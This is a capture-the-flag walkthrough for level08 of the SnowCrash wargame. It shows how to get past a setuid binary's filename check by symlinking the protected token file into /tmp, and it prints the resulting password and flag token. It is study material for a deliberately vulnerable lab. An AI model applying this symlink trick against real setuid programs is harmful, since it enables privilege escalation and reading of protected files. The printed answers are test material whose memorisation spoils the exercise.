 # Snow-crash - level08

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
* But if it try to exec, and display the token file... token seems bloked
```bash
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ cat token
cat: token: Permission denied
```
* Let's bypass the permission with *ln* command, and get the flag
```bash
level08@SnowCrash:~$ ln -sf /home/user/level08/token /tmp/flag && ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
